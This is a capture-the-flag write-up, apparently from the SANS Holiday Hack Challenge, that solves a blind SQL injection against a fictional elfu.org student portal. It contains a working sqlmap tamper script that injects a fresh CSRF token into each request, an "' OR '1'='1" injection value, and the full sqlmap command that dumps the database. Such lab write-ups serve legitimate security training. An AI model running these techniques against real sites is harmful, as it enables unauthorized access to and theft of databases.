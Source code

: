 # Retrieve Scraps of Paper from Server

This exercise is that of an offensive attack. By siding with Krampus, he claims that
he has information that is locked behind an account that he no longer has access to.
He is asking me if I can break in and obtain the information behind the website.
	
The website in question (https://studentportal.elfu.org) contains some information
about the student body, as well as the ability to apply to become a student as well
as check your application status. Both of these pages are user-input fields, and
both of them are susceptible to a SQL injection attack. This is determined by
putting a ' character in any of the fields and seeing what returns. In both cases I
am able to obtain a SQL error, although with the application status checker page it
performs some client-side data validation to ensure that what you're entering is an
email address. Even still I can turn off javascript and view the error.
	
To establish a proof of concept, I fired up Burp Suite and intercepted the request,
only to find out that it makes a GET request prior to a POST request. The GET request
simply obtains a token from the server and appends it to the end of the POST request.
This token has a short-lived expiration date, so I can't simply obtain a token and
use it over and over again.
	
This unfortunately will defeat a "vanilla" run of sqlmap, considering sqlmap is not
inherently aware of CSRF tokens without some proper coaxing. To get around this, I
first needed to establish a proof of concept, so I began coding a SQL injection
attempt in python. What I needed to do was:

1. Make a GET request to the server to obtain a token
2. Make a POST request with the token appended to the URL Parameters
3. Find an injection point.

Number 1 and 2 were taken care of, just a couple lines of python. Eventually I found
the injection point between the email address, and "' OR '1'='1".
	
Now the problem is this is a blind SQL injection attack, so unless I want to code my
own, my best bet is to not re-invent the wheel and simply use sqlmap. Unfortunately
sqlmap doesn't have any built-in means of dealing with token collection. That means
I'll have to create my own tamper script! It's basically a plugin for sqlmap that
allows you to manipulate the payload before sending it.

I coded up the following to help with this:
```python
		#!/usr/bin/env python3
		"""
			A tamper script
		"""
		from lib.core.data import kb
		from lib.core.enums import PRIORITY
		import requests
		import urllib
		__priority__ = PRIORITY.NORMAL
		
		token_url = "https://studentportal.elfu.org/validator.php"
		
		def dependencies():
		    pass
		
		def tamper(payload, **kwargs):
		    token_get = requests.get(token_url)
		    retval = urllib.parse.quote(payload) + f"&token={token_get.text}"
		    # print(f"Tampered payload: {retval}")
        return retval
```
You'll see that I first obtain the token from validator.php and quickly append it
to the payload. In order for this to work in any capacity, sqlmap MUST be
configured to NOT url encode this payload at all! Something it does by default. To
that end, the user must trust that the tamper script will do the proper URL encoding,
and as you can see I do.
	
To run this, the command was:
	
	`client~# sqlmap -u 'https://studentportal.elfu.org/check-application.php?elfmail=a' --no-urlencode --tamper elf_tamper.py --dump`
	
This allowed me to dump the entire database! I only needed krampus's table, so inside
that was a link to several JPG's. Each jpg was a torn piece of paper. Taking the
pieces of paper and arranging them formed:

![Torn Note](../images/hhc-torn-note.jpg)

Nice! Weird icon though...is that a tooth?
